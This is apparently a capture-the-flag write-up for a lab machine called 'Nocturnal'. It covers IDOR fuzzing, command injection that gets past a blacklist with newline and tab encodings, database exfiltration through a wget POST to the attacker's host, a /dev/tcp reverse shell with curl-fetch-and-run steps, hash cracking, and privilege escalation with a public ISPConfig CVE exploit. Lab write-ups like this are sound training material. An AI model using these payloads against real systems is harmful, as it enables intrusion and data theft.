 # 🌙 Nocturnal

## 📝 Overview

The machine involves exploiting an IDOR (Insecure Direct Object Reference) to access user files, 
leveraging a vulnerable admin panel to download sensitive database files, 
cracking password hashes, and escalating privileges via an outdated ISPConfig installation.

## 🔍 Enumeration

Start with **Nmap** to identify open ports and services:
```sh
nmap -p- -T4 10.10.11.64
nmap -sV -sC -p 22,80 10.10.11.64
echo "10.10.11.64 nocturnal.htb" | sudo tee -a /etc/hosts
nikto -h http://nocturnal.htb
gobuster dir -u http://nocturnal.htb -w /usr/share/wordlists/dirb/common.txt -x php,html,txt
```

We can register on the website and reach dashboard.php which allows file uploads.  
File upload restrictions:
```
Invalid file type." PDF, doc, docx, xls, xlsx, and odt are allowed
```

## 🕵️‍♂️ IDOR / Fuzzing

IDOR / Fuzzing: Fuzz usernames to find valid accounts:
```sh
http://nocturnal.htb/view.php?username=FUZZ&file=test.pdf
ffuf -u "http://nocturnal.htb/view.php?username=FUZZ&file=test.pdf" -w /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt -b "PHPSESSID=erbpv8q9e6n8p65j7dk8lsgpde" -fr "User not found"
```

Found Amanda user and downloaded her files → found password:
```
arHkG7HAI68X8s1J
```

Use the password to access the admin panel.  
Test injection payloads with Burp Suite:
```sh
password=1%0awhoami>text.txt%0a&backup=
# Discovered the nocturnal_database.db file
password=''>/dev/null%0als%09/var/www/nocturnal_database&backup=
```

## 🛡️ Admin Panel Analysis

Admin.php sanitization function:
```php
function cleanEntry($entry) {
    $blacklist_chars = [';', '&', '|', '$', ' ', '`', '{', '}', '&&'];
...
```

After some search we find nocturnal_database.db:
```sh
password=''>/dev/null%0awget%09-X%09POST%09http://10.10.14.124:8000/upload%09-F%09'files=@/var/www/nocturnal_database/nocturnal_database.db'#&backup=

# or we can echo "bash -c 'bash -i >& /dev/tcp/10.10.14.124/4444 0>&1'" > shell
# password=test%0acurl%09http://10.10.14.124/shell%09-o%09/tmp/shell&backup=
# password=test%0abash%09/tmp/shell&backup=
```

## 🔑 Extracting Passwords

Extracted hashes from the database:
```sh
sqlite3 nocturnal_database.db
.tables
select * from users;
echo -n "tobias:55c82b1ccd55ab219b3b109b07d5061d" > hash.txt
john --format=raw-md5 --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
# slowmotionapocalypse
```

## 🖥️ SSH Access

SSH into the machine with tobias:
```sh
id
whoami
groups
curl -L https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh -o linpeas.sh
python3 -m http.server 8000
curl http://10.10.14.116:8000/linpeas.sh -o linpeas.sh
```

Found service running on port 8080:
```sh
ss -tulpn
```

## 🧗 Privilege Escalation via ISPConfig

Tunneling via SSH to access ISPConfig:
```sh
ssh -L 8080:127.0.0.1:8080 tobias@nocturnal.htb
http://localhost:8080/
```

Discovered version: ISPConfig 3.2.10p1  
Found CVE-2023-46818 and exploited:
```sh
https://github.com/ajdumanhug/CVE-2023-46818
tobias@nocturnal:~$ python3 script.py http://localhost:8080 admin slowmotionapocalypse
```